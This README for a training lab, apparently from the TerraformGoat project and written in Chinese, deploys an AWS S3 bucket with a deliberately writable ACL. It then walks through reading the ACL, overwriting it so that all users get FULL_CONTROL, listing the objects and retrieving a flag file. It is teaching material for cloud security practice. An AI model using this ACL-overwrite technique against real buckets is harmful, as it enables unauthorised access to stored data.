





# AWS S3 Bucket ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS S3 Bucket ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法读取的数据修改为可读，从而访问到 S3 服务资源。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/s3/bucket_acl_writable/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Bucket ACL 读取和写入权限

## 漏洞利用

尝试遍历 Object，发现访问被拒绝



尝试读取 Bucket 的 ACL 策略，发现可以读取

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/?acl
```



尝试使用 PUT 方法修改 Bucket 的 ACL 策略

原来的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

新的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```



再次尝试遍历 Object，发现已经可以遍历到了，说明刚才上传的 ACL 策略生效了



在 Bucket 中，发现 flag 文件

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/flag1650859
```



成功获取到 flag 文件内容

## 销毁环境

```shell
terraform destroy
```
